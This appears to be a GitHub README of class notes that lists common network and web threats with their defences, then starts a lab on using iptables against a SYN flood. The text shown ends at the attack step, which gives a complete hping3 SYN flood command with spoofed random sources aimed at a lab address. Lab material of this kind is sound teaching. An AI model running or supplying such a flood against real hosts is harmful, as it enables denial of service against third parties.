 ## Threat

##### Internet
  
    1, DDoS
    2, APT
    3, Spoofing
    
###### Safety Defense
    
    1, Firewall
    2, IDS/IPS
    3, Honeypot
    
##### Website(Database)(Web Application)

    1, OWASP TOP10
    
###### Safety Defense

    1, WAF(Web Application Firewall)
    
## Practice(Using Iptable to Defense SYN Flood Attack)

##### Platform

    Attack Computer: Distro: Kali GNU/Linux 2020.3  Kernel: 5.7.0-kali1-amd64 x86_64
    
    Defense Computer: Distro: Ubuntu 20.04.1 LTS  Kernel: 5.4.0-54-generic x86_64
    
##### Step

###### 1, find target by using command "ip addr" on target Computer or "nmap -sn {ip}" on Attack Computer
###### 2, In this case we just going to use ip addr on Target Computer

![alt text](https://github.com/LunarstarPony/iPAS-Probably-Would-Win/blob/main/Class_Files/11_17_2020/1.png?raw=true)

###### 3, Start the attack using "hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.159" 
    
